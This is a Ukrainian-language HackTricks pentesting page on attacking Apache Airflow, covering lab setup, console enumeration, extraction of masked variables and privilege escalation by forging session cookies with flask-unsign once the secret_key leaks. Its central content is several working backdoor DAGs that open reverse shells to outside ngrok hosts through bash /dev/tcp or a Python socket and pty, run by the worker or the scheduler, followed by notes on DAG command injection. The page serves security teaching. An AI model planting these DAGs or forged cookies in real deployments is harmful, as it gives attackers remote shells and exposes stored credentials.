 # Безпека Apache Airflow

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

[**Apache Airflow**](https://airflow.apache.org) служить платформою для **оркестрування та планування потоків даних або робочих процесів**. Термін "оркестрування" в контексті потоків даних означає процес організації, координації та управління складними потоками даних, що походять з різних джерел. Основною метою цих оркестрованих потоків даних є надання оброблених та споживаних наборів даних. Ці набори даних широко використовуються безліччю додатків, включаючи, але не обмежуючись, засоби бізнес-аналітики, моделі науки про дані та машинного навчання, які є основою функціонування додатків для великих обсягів даних.

Основна ідея полягає в тому, що Apache Airflow дозволить вам **планувати виконання коду, коли щось** (подія, cron) **відбувається**.

## Локальна лабораторія

### Docker-Compose

Ви можете використовувати **файл конфігурації docker-compose з** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) для запуску повноцінного середовища Apache Airflow у контейнері Docker. (Якщо ви використовуєте MacOS, переконайтеся, що виділили принаймні 6 ГБ оперативної пам'яті віртуальній машині Docker).

### Minikube

Один з простих способів **запустити Apache Airflow** - це запустити його **за допомогою Minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Налаштування Airflow

Airflow може зберігати **чутливу інформацію** у своїй конфігурації або ви можете знайти слабкі налаштування:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## Airflow RBAC

Перед тим як атакувати Airflow, вам слід зрозуміти **як працюють дозволи**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Атаки

### Перелік веб-консолі

Якщо у вас є **доступ до веб-консолі**, ви можете мати можливість отримати доступ до наступної інформації:

* **Змінні** (Тут може бути збережена користувацька чутлива інформація)
* **Підключення** (Тут може бути збережена користувацька чутлива інформація)
* Доступ до них за адресою `http://<airflow>/connection/list/`
* [**Конфігурація**](./#airflow-configuration) (Чутлива інформація, така як **`secret_key`** та паролі, може бути збережена тут)
* Перелік **користувачів та ролей**
* **Код кожного DAG** (який може містити цікаву інформацію)

### Отримання значень змінних

Змінні можуть бути збережені в Airflow, щоб **DAGs** могли **отримувати** їх значення. Це схоже на секрети інших платформ. Якщо у вас є **достатньо дозволів**, ви можете отримати до них доступ у GUI за адресою `http://<airflow>/variable/list/`.\
За замовчуванням Airflow покаже значення змінної у GUI, однак, згідно з [**цим**](https://marclamberti.com/blog/variables-with-apache-airflow/), можна встановити **список змінних**, значення яких буде відображатися у вигляді **зірочок** у **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Однак ці **значення** все ще можна **отримати** через **CLI** (потрібен доступ до БД), **виконання довільного DAG**, **API**, звертаючись до кінцевої точки змінних (API повинен бути активований), і **навіть сам GUI!**\
Щоб отримати доступ до цих значень з GUI, просто **виберіть змінні**, до яких ви хочете отримати доступ, і **натисніть Дії -> Експорт**.\
Інший спосіб - виконати **перебір** **прихованого значення**, використовуючи **пошукове фільтрування**, поки ви його не отримаєте:

![](<../../.gitbook/assets/image (152).png>)

### Підвищення привілеїв

Якщо конфігурація **`expose_config`** встановлена в **True**, з **ролі Користувач** та **вище** можуть **читати** **конфігурацію у веб-інтерфейсі**. У цій конфігурації з'являється **`secret_key`**, що означає, що будь-який користувач з цим валідним ключем може **створити свій власний підписаний куки для підробки облікового запису будь-якого іншого користувача**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Задній двері DAG (RCE в робочому процесі Airflow)

Якщо у вас є **доступ на запис** до місця, де **зберігаються DAG**, ви можете просто **створити один**, який буде надсилати вам **зворотню оболонку**.\
Зверніть увагу, що ця зворотня оболонка буде виконана всередині **контейнера робочого процесу Airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Задній двері DAG (RCE в планувальнику Airflow)

Якщо ви встановите щось для **виконання в корені коду**, на момент написання цього, це буде **виконано планувальником** через кілька секунд після розміщення його в папці DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Створення DAG

Якщо вам вдасться **зламати машину всередині кластера DAG**, ви можете створити нові **скрипти DAG** у папці `dags/`, і вони будуть **репліковані на решті машин** всередині кластера DAG.

### Впровадження коду DAG

Під час виконання DAG з GUI ви можете **передавати аргументи** до нього.\
Отже, якщо DAG не правильно закодований, він може бути **уразливим для Впровадження Команд**.\
Так сталося у цьому CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Все, що вам потрібно знати, щоб **почати шукати впровадження команд в DAG**, це те, що **параметри** **доступні** за допомогою коду **`dag_run.conf.get("param_name")`**.

Більше того, така ж уразливість може виникнути з **змінними** (зверніть увагу, що з достатньою кількістю привілеїв ви можете **контролювати значення змінних** в GUI). Змінні **доступні за допомогою**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Якщо вони використовуються, наприклад, всередині команди bash, ви можете виконати впровадження команд.

<details>

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
